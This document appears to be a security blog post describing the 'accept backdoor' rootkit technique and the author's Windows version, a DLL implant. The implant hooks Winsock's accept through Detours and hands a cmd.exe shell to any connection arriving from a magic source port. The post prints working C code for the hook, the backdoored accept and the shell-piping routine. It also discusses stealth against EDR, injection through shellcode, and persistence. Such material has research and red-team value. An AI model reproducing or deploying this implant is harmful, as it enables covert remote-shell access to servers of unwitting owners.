







+++
date = '2021-02-14T14:20:34+02:00'
draft = false
title = 'The First Winsock Accept Backdoor'
cover = 'cover.jpg'
categories = ['malware', 'backdoor']
tags = ['malware', 'backdoor']
+++

I've always been fascinated by the ingenuity in the world of Linux rootkits, and one concept that has consistently stood out to me is the **accept backdoor**. It's a method that's been around since the early days of Linux rootkits, and I truly believe it's one of the most creative backdoor techniques out there.


## What Exactly is an Accept Backdoor?

Imagine a Linux machine with several open ports – SSH on 22, HTTP on 80, SMTP, and so on. Typically, when you connect to one of these ports, you interact with the service running on it. But with an accept backdoor, things are different. By **hooking the `accept` call in the Linux syscall table**, attackers can essentially hijack incoming connections. This means that if you connect to any of these ports in a very specific way, you bypass the legitimate service and go directly to a shell.

For instance, consider an HTTP service running on port 80. With an accept backdoor, a connection originating from a specific source port – say, 5555 – wouldn't go to the HTTP server at all. Instead, it would land you directly in a shell. This is what makes it so clever: it's independent of the protocol or the specific port; any listening port can be leveraged.

Several well-known, open-source Linux rootkits, like [**Jynx-kit**](https://github.com/chokepoint/Jynx2), [**Jynx2**](https://github.com/chokepoint/Jynx2), [**Azazel**](https://github.com/chokepoint/azazel), and [**Vlany**](https://github.com/mempodippy/vlany), have this accept backdoor capability. They're definitely worth examining if you're interested in the technical details.




## How Linux Rootkits Implement Accept Backdoors

To understand how these rootkits pull off an accept backdoor, let's briefly review the standard process for handling incoming connections in socket programming across operating systems.

1.  **Socket Creation**: First, a program creates a socket, which you can think of as an abstract handle or pointer.
2.  **Binding**: Next, the socket is bound to an address or port on the operating system using a `bind` syscall. The OS checks if the port is busy and, if all is well, associates the socket with that address.
3.  **Listening**: The `listen` call then puts the socket in a state where the OS starts listening for incoming packets on the specified port.
4.  **Accepting Connections**: Finally, when a connection is to be established, the program makes an `accept` call. This is where the accept backdoor logic comes into play.





The `accept` call takes the socket and an empty address structure pointer. If successful, the OS establishes a connection (like a successful TCP 3-way handshake) and fills the provided address structure with details about the incoming connection. From this point, all I/O operations happen over that socket.

Linux rootkits exploit this by **hooking the `accept` call in the syscall table**. In Linux, user-mode programs make syscalls (like `write`) which involve an interrupt. This interrupt, with a specific code, directs the kernel to a `syscall table`, which is essentially an array of pointers to the actual kernel functions. Rootkits find this table in kernel memory and replace the address of the legitimate `accept` function with the address of their own malicious `accept` function.



After this patch, when an `accept` call is made, the rootkit's custom function is executed. It immediately checks for a specific "trigger" or "indicator" in the incoming connection's socket address structure. This could be a specific source port, a TCP sequence number, or any other detail within the TCP/IP stack.

-   **If the backdoor is triggered**: The rootkit spawns a shell and redirects its input/output to the socket.
-   **If the backdoor isn't triggered**: The rootkit simply calls the original `accept` function, and the normal program flow continues as if nothing happened.




## Why Isn't There a Widespread Windows Version?

For years, I've pondered why a similar "accept backdoor" isn't as prevalent in the Windows world. There are two primary reasons:

### Syscall Differences and Variability

Unlike Linux, where syscalls are more directly exposed and stable, Windows typically encourages interaction through **Windows APIs** provided in libraries. While raw syscalls are possible in Windows, their numbers change with almost every Windows build and version. For example, the `NtAcceptConnectPort` syscall number varies significantly from Windows NT all the way to Windows 10. This makes it incredibly difficult for a rootkit to reliably patch a specific syscall across different Windows versions. While modern malware can dynamically find syscall numbers at runtime, it adds a layer of complexity.

### Driver Signature Enforcement

This is the biggest hurdle. Windows has a feature called **"driver signature enforcement."** In the Linux world, it's relatively easy to modify the kernel using Linux Kernel Modules (LKMs), provided you have root permissions. But in Windows, even with the highest privileges, loading a driver requires a Microsoft-approved signature. While it's possible to disable this enforcement, it usually requires specific actions during the machine's boot phase, which isn't ideal for a stealthy rootkit. There's a lot of research on "signature enforcement bypasses" and reflective driver loaders, but it's a significant barrier.



## My Approach: A DLL Implant for Windows

Given these challenges, I decided to pivot my project and develop an accept backdoor as a **DLL implant**. The idea is to take the same concept, write it as a single DLL, and then inject this DLL into a target process. This way, all ports created by that process would become backdoored.

How do we achieve this in Windows? Through **function hooking**. There are several methods for hooking functions in Windows, like IAT (Import Address Table) hooking or EAT (Export Address Table) hooking. However, the most robust and secure method is **inline hooking**.

### Inline Hooking Explained

Inline hooking involves patching the very beginning of a target function. For example, to hook the `MessageBox` function, you'd modify its first few bytes (typically 5 bytes in 32-bit) with a **jump instruction** that redirects execution to your custom function. To ensure the original function's code still executes correctly, you create a small piece of memory called a **trampoline**. This trampoline contains the original bytes that were overwritten, followed by a jump back to the rest of the original function.



For this project, I've found Microsoft's **Detours library** to be incredibly useful. It's a popular open-source library specifically designed for detouring or redirecting functions, and it handles the complexities of inline hooking, including patching the first 5 bytes and managing trampolines. Its usage is quite straightforward: you specify the address of the function you want to redirect and the address of your custom function, and Detours handles the rest.



### Implementing the Accept Backdoor in Windows

Applying this to our accept backdoor, the goal is to hook the `accept` function within the **Winsock library** to our custom, backdoored `accept` function. Interestingly, Winsock has two `accept` functions: `WSAAccept` and plain `accept`. Upon closer inspection, `WSAAccept` internally calls the plain `accept` after some additional operations, so hooking the plain `accept` is sufficient.

The process for our DLL implant is simple:

1.  **Find Real `accept` Address**: We use `DetourFindFunction` to locate the address of the legitimate `accept` function.
2.  **Begin Transaction**: `DetourTransactionBegin` and `UpdateThread` calls prepare for the necessary memory modifications and permission adjustments.
3.  **Attach Hook**: `DetourAttach` links the real `accept` function to our custom backdoored `accept` function.
4.  **Commit Transaction**: Finally, `DetourTransactionCommit` applies the patches to memory.

```c


BOOL APIENTRY DllMain(HMODULE hModule,
					  DWORD ul_reason_for_call,
					  LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:

		RealAccept = ((SOCKET(WSAAPI *)(
			SOCKET,
			sockaddr *,
			int *))
		DetourFindFunction("WS2_32.dll", "accept"));
		DetourTransactionBegin();
		DetourUpdateThread(GetCurrentThread());

		if (DetourAttach(&(PVOID &)RealAccept, BackdooredAccept) != NO_ERROR)
		{
			//printf("[-] accept() detour attach failed!\n");
		}

		if (DetourTransactionCommit() != NO_ERROR)
		{
			//printf("[-] DetourTransactionCommit() failed!\n");
		}
		break;

	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

```

Our custom `accept` function mirrors the original's parameters and return value. As soon as it's entered, we first call the real `accept` function to establish a connection. This populates the `sockaddr` structure with information about the incoming connection, including the source port in the `sa_data` field.

```c
SOCKET WSAAPI BackdooredAccept(SOCKET s, sockaddr *addr, int *addrlen)
{
	//...
	SOCKET retVal = RealAccept(s, addr, addrlen);
	unsigned int port = bytes_to_u16(addr->sa_data[0], addr->sa_data[1]);
	if (port == BACKDOOR_PORT)
	{
		fdinfo fdn;
		ZeroMemory(&fdn, sizeof(fdn));
		ZeroMemory(&fdn.remoteaddr, sizeof(fdn.remoteaddr));
		fdn.fd = retVal;
		char shell[] = "cmd.exe";
		netrun(&fdn, shell);
		return WSAECONNRESET;
	}

	return retVal;
}

```

In my current implementation, I check the source port. If it matches a specific value (our "magic" source port), I call a `netrun` function that spawns a `cmd.exe` and redirects its input/output to the socket. Otherwise, the normal flow continues. When the shell session ends, we return from the `accept` function with a `WSACONNRESET` error, making it appear to the application as if the connection was simply reset.

## Addressing Potential Issues and Enhancements

A key question arises: what if our "magic" source port accidentally coincides with a legitimate connection? If the implant is in an HTTP or SMB service, and a client's source port happens to be our trigger, both the client and the server process (where the implant resides) could crash because a shell output is returned when an HTTP or SMB response is expected.

To mitigate this, we leverage the concept of **ephemeral ports**. These are temporary port ranges that operating systems use when choosing a source port for outgoing connections. For example, Linux uses a range from 32768 to 60999, and Windows (2000 and above) uses 1025 to 65535. By selecting a "magic" source port *outside* these common ephemeral ranges, we significantly reduce the chance of accidental collisions.

### Redirecting Standard I/O

For the backdoor to be truly functional, we need to redirect the standard input (`stdin`), standard output (`stdout`), and standard error (`stderr`) of the spawned shell to the socket. This allows remote communication. While basic bind-shell implementations in Metasploit might directly equate the socket to these standard handles, it's not always that simple. Different Winsock versions and socket types can behave differently.

To ensure broad compatibility, especially across various Winsock versions and socket types, I've adopted a technique similar to what the `ncat` tool uses in Windows. We create a **named pipe** and then use `WriteFile` and `ReadFile` API calls to bridge the socket's data with the pipe, and the pipe's data with the shell's standard I/O. This involves starting a new thread that creates the pipe and handles this data transfer. As a side note for blue teamers, monitoring pipe creation (e.g., via Sigma rules) can be a good way to detect `ncat` shell connections.


```c
/* Run a child process, redirecting its standard file handles to a socket
   descriptor. Return the child's PID or -1 on error. */
int netrun(struct fdinfo* fdn, char* cmdexec)
{
    struct subprocess_info* info;
    HANDLE thread;
    int pid;

    info = (struct subprocess_info*)malloc(sizeof(*info));
    info->fdn = *fdn;

    pid = start_subprocess(cmdexec, info);
    if (pid == -1) {
        //close(info->fdn.fd);
        free(info);
        return -1;
    }

    /* Start up the thread to handle process I/O. */
    thread = CreateThread(NULL, 0, subprocess_thread_func, info, 0, NULL);
    if (thread == NULL) {
        ////if (o.verbose)
            //logdebug("Error in CreateThread: %d\n", GetLastError());
        free(info);
        return -1;
    }
    CloseHandle(thread);

    return pid;
}

```

## Demonstration and Advantages


In a recent demo, I showcased this in action. I had a Windows machine running an HTTP server with a Metasploit Meterpreter shell. I injected my DLL implant (converted to shellcode using the Amber tool) into one of the `httpd.exe` processes.

The results were compelling:

-   Connecting to port 80 with a regular Netcat client yielded a normal HTTP response.
-   However, connecting to port 80 using our "magic" source port (e.g., 5555) immediately dropped me into a shell!

The advantages of this accept backdoor technique are significant:

-   **Stealth**: By leveraging existing listening ports, it's harder for EDRs to detect. It creates less network noise and fewer traces because we're connecting to a server that's already expecting connections on a given port (like HTTP or SMB).
-   **Flexibility**: It works on virtually any port type and protocol, whether SSL is involved or not. The `accept` call happens regardless. This means you can implant it into SMB, HTTP, FTP, or any other network service.
-   **No Cleanup Required**: A major benefit in penetration tests. Since it's a memory implant, it disappears when the machine reboots, leaving no artifacts behind. For persistence, you could inject the DLL into a PE file that's regularly executed, or explore techniques like IAT dependency injection.

This project has been a fascinating journey, delving into the intricacies of system calls, hooking, and network communication. The accept backdoor truly is a creative and powerful technique, and adapting it for Windows as a DLL implant opens up some intriguing possibilities for stealthy operations.

## Links
- [TTMO-4 Presentation Video (TR)](https://youtu.be/bqRzZoHjS8A)
- https://github.com/EgeBalci/WSAAcceptBackdoor

